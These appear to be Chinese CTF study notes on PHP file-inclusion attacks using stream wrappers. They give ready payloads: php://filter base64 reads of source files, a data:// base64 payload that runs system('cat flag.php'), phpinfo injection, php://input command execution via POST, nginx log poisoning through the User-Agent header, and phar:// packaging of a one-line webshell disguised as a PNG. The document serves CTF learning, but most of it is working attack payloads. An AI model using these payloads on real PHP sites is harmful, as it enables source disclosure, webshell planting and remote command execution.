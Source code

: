 # 1.php伪协议/文件包含

## file函数

![img](.\images\20210110135324804-1721131032936.png)

1.是格式
2.是可选参数，有read和write，字面意思就是读和写
3.是过滤器。主要有四种：字符串过滤器，转换过滤器，压缩过滤器，加密过滤器。filter里可以用一或多个过滤器（中间用|隔开），这也为解题提供了多种方法，灵活运用过滤器是解题的关键。这里的过滤器是把文件flag.php里的代码转换（convert）为base64编码（encode）
4.是必选参数，后面写你要处理的文件名

php://filter/read=convert.base64-encode/resource=index.php

php://filter/convert.base64-encode/resource=index.php

在绕过一些WAF时有用



php://filter/resource=index.php



## data命令

text=data://text:text/plain,内容

```
？file=data://text/plain;base64,PD9waHAgc3lzdGVtKCdjYXQgZmxhZy5waHAnKTs=

PD9waHAgc3lzdGVtKCdjYXQgZmxhZy5waHAnKTs ===> <?php system('cat flag.php');

```

读取phpinfo()

```
data://text/plain;base64,PD9waHAgcGhwaW5mbygpOz8%2b

data://text/plain,<?php%20phpinfo();?>
```

file:// — 访问本地文件系统
http:// — 访问 HTTP(s) 网址
ftp:// — 访问 FTP(s) URLs
php:// — 访问各个输入/输出流（I/O streams）
zlib:// — 压缩流
data:// — 数据（RFC 2397）
glob:// — 查找匹配的文件路径模式
phar:// — PHP 归档
ssh2:// — Secure Shell 2
rar:// — RAR
ogg:// — 音频流
expect:// — 处理交互式的流

## 对php进行过滤

使用data协议

或者使用?file=Php://input任意命令执行

post提交对应命令

![image-20240716195808334](images\image-20240716195808334.png)

![image-20240716195817975](\images\image-20240716195817975.png)

## 4.查看日志方法

nginx服务器的日志通常为/var/log/nginx/access.log

或/var/log/nginx/error.log

使用file读取日志文件

```
?file=/var/log/nginx/access.log
```

查看日志文件记录的是什么

例记录User-Agent,则可以在User-Agent中写入php语句实现命令执行

# phar伪协议

phar://伪协议
这个就是php解压缩报的一个函数，不管后缀是什么，都会当做压缩包来解压，用法：?file=phar://压缩包/内部文件

phar://xxx.png/shell.php 注意 PHP>=5.3.0压缩包需要是zip协议压缩，rar不行，将木马文件压缩后，改为其他任意格式的文件都可以正常使用。步骤：写一个一句话木马shell。php，然后用zip协议解压缩为shell.zip。然后将后缀改为png等其他格式

